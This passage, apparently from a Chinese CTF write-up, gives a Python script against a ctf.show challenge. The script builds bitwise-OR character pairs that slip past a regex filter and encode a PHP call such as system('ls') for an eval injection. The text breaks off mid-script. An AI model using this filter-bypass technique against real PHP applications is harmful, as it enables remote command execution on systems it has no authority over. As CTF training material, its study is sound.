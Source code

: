 通过脚本来实现：

import re

import requests

url="http://2a2e4b71-f1ff-4953-8b14-bd26f6633fdc.challenge.ctf.show/"

a=[]

ans1=""

ans2=""

for i in range(0,256):

c=chr(i)

tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c, re.I)

if(tmp):

continue

#print(tmp.group(0))

else:

a.append(i)

# eval("echo($c);");

mya="system" #函数名 这里修改！

myb="ls" #参数

def myfun(k,my):

global ans1

global ans2

for i in range (0,len(a)):

for j in range(i,len(a)):

if(a[i]|a[j]==ord(my[k])):

ans1+=chr(a[i])

ans2+=chr(a[j])

return;

for k in range(0,len(mya)):

myfun(k,mya)

data1="(\""+ans1+"\"|\""+ans2+"\")"

ans1=""

ans2=""
